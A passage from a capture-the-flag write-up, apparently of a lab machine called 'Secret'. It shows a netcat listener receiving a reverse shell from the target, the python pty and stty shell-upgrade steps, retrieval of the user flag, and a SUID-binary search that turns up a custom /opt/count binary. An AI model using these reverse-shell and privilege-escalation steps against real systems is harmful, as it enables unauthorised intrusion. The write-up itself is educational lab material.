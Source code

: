 We get a reverse shell back on our listener which we upgrade using python and are able to grab the user flag.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.252.221.
Ncat: Connection from 10.129.252.221:45444.
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ export TERM=xterm
export TERM=xterm
dasith@secret:~/local-web$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

dasith@secret:~/local-web$ stty rows 55 cols 236
dasith@secret:~/local-web$ wc -c ~/user.txt
33 /home/dasith/user.txt
```

# Root

Looking around there is a custom suid binary.

```
dasith@secret:~/local-web$ find / -perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/opt/count
...[snip]...
```
